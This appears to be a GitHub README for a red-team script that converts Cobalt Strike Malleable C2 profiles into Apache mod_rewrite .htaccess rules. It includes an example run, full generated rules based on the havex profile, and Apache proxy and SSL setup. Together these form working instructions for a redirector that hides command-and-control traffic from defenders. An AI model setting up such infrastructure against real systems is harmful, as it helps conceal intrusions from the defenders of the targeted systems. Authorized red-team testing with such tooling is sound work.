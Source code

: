 # Convert Cobalt Strike profiles to Apache mod_rewrite .htaccess files to support HTTP C2 Redirection

This is a quick script that converts a Cobalt Strike profile to a functional mod_rewrite .htaccess file to support HTTP proxy redirection from Apache to a  CobaltStrike teamserver.

You should test and tune the output as needed before depolying

__Updates and Features__

 - Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. Result: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
 - Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
 - Supports the most recent Cobalt Strike 3.10 profile features
 - HTTP or HTTPS proxying to the Cobalt Strike Team Server
 - HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to .htaccess
3) Modify as needed
4) Use script with your Apache redirector

## Example

    python cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -d HTTPS://GOHERE
    #### Save the following as .htaccess in the root web directory
    
    ########################################
    ## .htaccess START 
    RewriteEngine On

    ## (Optional)
    ## Scripted Web Delivery 
    ## Uncomment and adjust as needed
    #RewriteCond %{REQUEST_URI} ^/css/style1.css?$
    #RewriteCond %{HTTP_USER_AGENT} ^$
    #RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Default Beacon Staging Support (/1234)
    RewriteCond %{REQUEST_URI} ^/..../?$
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
    ## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
    ## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
    ## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
    ## Profile URIs
    RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
    ## Profile UserAgent
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Redirect all other traffic here (Optional)
    RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]

    ## .htaccess END
    ########################################

----------------------------------------------
## Apache Rewrite Setup and Tips

__Enable Rewrite and Proxy__

    a2enmod rewrite
    a2enmod proxy
    a2enmod proxy_http
    service apache2 reload

__SSL support requires the following in the site config__

    # Enable SSL
    SSLEngine On
    # Enable Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generate by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

__HTACCESS__
If you plan on using mod_rewrite in .htaccess files, you also need to enable the use of .htaccess files by changing `AllowOverride None` to `AllowOverride All`. For the default website, edit /etc/apache2/sites-available/default

    <Directory /var/www/>
            Options Indexes FollowSymLinks MultiViews
            AllowOverride All
            Order allow,deny
            allow from all
    </Directory>

## References

[cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

[Apache mod_rewrite](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)

[Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)
